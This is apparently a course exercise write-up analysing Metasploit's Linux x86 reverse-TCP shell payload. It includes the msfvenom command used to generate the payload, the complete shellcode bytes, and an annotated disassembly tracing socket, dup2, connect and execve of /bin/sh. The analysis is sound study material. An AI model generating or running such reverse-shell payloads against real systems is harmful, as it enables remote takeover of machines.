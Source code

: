 # linux/x86/shell_reverse_tcp
- Analysis by: William Moody
- PA-25640

First I dumped the shellcode from metasploit.
`msfvenom -p linux/x86/shell_reverse_tcp LPORT=443 LHOST=127.0.0.1 -f c`

Next I generated a graph with libemu to visual the system calls.

```
echo -ne "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x7f\x00\x00\x01\x68\x02\x00\x01\xbb\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80" | sctest -vvv -Ss 100000 -G linux-x86-shell_reverse_tcp.dot
dot linux-x86-shell_reverse_tcp.dot -Tpng -o linux-x86-shell_reverse_tcp.png
```

![](img/linux-x86-shell_reverse_tcp.png)

I disassembled the shellcode with ndisasm:
```
echo -ne "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x7f\x00\x00\x01\x68\x02\x00\x01\xbb\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80" | ndisasm -u - -b 32 -p intel
```

And I pasted the shellcode into `shellcode.c` and compiled it so that I can
view the observe the functionality in gdb.

`gcc shellcode.c -o shellcode`

Finally I loaded up `./shellcode` into gdb, stepped to the beginning of the
shellcode and began my analysis.

```
b*main+201
r
stepi
```

The first thing the shellcode does is create a socket.

```
int socketcall(int call, unsigned long *args);
int socket(int domain, int type, int protocol);
```

![](img/reverse_socket.png)

```
00000000  31DB              xor ebx,ebx     ; EBX = 0
00000002  F7E3              mul ebx
00000004  B066              mov al,0x66     ; EAX = 0x66 (SYS_SOCKETCALL)
00000006  43                inc ebx         ; EBX = 1
00000007  52                push edx        ; int protocol = 0 (default)
00000008  53                push ebx        ; int type = 1 (SOCK_STREAM)
00000009  6A02              push byte +0x2  ; int domain = 2 (AF_INET)
0000000B  89E1              mov ecx,esp     ; *args = ESP
0000000D  CD80              int 0x80        ; socketcall() -> socket()
```

*Note: parts of the shellcode were incorrectly dissasembled by ndisasm, so I 
will be copying the remaining shellcode by hand from gdb.*

Once the socket is created, the shellcode calls SYS_dup2 for STDIN, STDOUT, and
STDERR to be redirected to the socket.

```
int dup2(int oldfd, int newfd);
```

![](img/reverse_dup2.png)

```
0000000F    xchg eax, ebx       ; EBX = sockfd
00000010    pop ecx             ; ECX = 2
00000011    mov al, 0x3f        ; EAX = 0x3f (SYS_dup2)
00000013    int 0x80            ; dup2()
00000015    dec ecx             ; ECX -= 1
00000016    jns 0x11            ; loop until ECX < 0
```

Once the file descriptors are copied, the shellcode uses another socket call to
SYS_CONNECT to connect to the HOST/PORT that was specified when generating the
shellcode with msfvenom.

![](img/reverse_connect.png)

```
00000018    push 0x0100007f     ; 127.0.0.1
0000001D    push 0xbb010002     ; 443, AF_INET
00000022    mov ecx, esp        ; *args = ESP
00000024    mov al, 0x66        ; EAX = 0x66 (SYS_SOCKETCALL)
00000026    push eax				 
00000027    push ecx
00000028    push ebx				
00000029    mov bl, 3           ; int call = 3 (SYS_CONNECT)
0000002B    mov ecx, esp        ; *args = ESP
0000002D    int 0x80            ; socketcall() -> connect()
```

For debugging, I started a netcat listener to receive the connection. 

![](img/reverse_netcat.png)

Once a client is connected, the shellcode finally executes "/bin/sh" and the 
client should have a shell at this point.

```
int execve(const char *pathname, char *const argv[], char *const envp[]);
```

![](img/reverse_execve.png)

```
0000002F    push edx
00000030    push 0x68732f6e     ; "hs//"
00000035    push 0x69622f2f     ; "nib/"
0000003A    mov ebx, esp        ; *pathname = *"/bin//sh"
0000003C    push edx
0000003D    push ebx
0000003E    mov ecx, esp        ; argv[] = {"/bin//sh"}
00000040    mov al, 0xb         ; EAX = 0xb (SYS_EXECVE)
00000042    int 0x80            ; execve()
```

![](img/reverse_netcat_final.png)
